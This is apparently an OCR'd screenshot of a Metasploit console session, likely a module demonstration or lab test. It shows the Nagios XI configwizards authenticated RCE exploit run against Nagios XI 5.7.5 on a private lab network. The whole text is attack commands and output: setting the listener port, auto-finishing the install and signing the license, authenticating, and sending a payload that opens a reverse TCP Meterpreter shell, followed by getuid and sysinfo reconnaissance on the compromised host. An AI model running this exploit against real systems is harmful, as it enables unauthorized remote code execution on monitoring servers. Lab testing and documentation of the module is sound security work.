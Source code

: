 ```
   Id  Name
   --  ----
   1   Linux (x64)



View the full module info with the info, or info -d command.

msf6 exploit(linux/http/nagios_xi_configwizards_authenticated_rce) > set LPORT 9912
LPORT => 9912
msf6 exploit(linux/http/nagios_xi_configwizards_authenticated_rce) > set FINISH_INSTALL true
FINISH_INSTALL => true
msf6 exploit(linux/http/nagios_xi_configwizards_authenticated_rce) > exploit

[*] Started reverse TCP handler on 192.168.153.128:9912
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Attempting to authenticate to Nagios XI...
[!] The target seems to be a Nagios XI application that has not been fully installed yet.
[*] Attempting to finish the Nagios XI installation on the target using the provided password. The username will be `nagiosadmin`.
[*] Attempting to authenticate to Nagios XI...
[!] The Nagios XI license agreement has not yet been signed on the target.
[*] Attempting to sign the Nagios XI license agreement...
[*] License agreement signed. The module will wait for 5 seconds and retry the login.
[*] Attempting to authenticate to Nagios XI...
[+] Successfully authenticated to Nagios XI.
[*] Target is Nagios XI with version 5.7.5.
[+] The target appears to be vulnerable.
[*] Sending the payload...
[*] Sending stage (3045348 bytes) to 192.168.153.132
[*] Meterpreter session 1 opened (192.168.153.128:9912 -> 192.168.153.132:32878) at 2023-02-07 11:48:50 -0600

[*] Command Stager progress - 100.00% done (833/833 bytes)

meterpreter >
meterpreter > getuid
Server username: apache
meterpreter > getprivs
[-] The "getprivs" command is not supported by this Meterpreter type (x64/linux)
meterpreter > sysinfo
Computer     : localhost.localdomain
OS           : CentOS 7.9.2009 (Linux 3.10.0-1160.2.2.el7.x86_64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > pwd
/usr/local/nagiosxi/html/config
meterpreter >
```
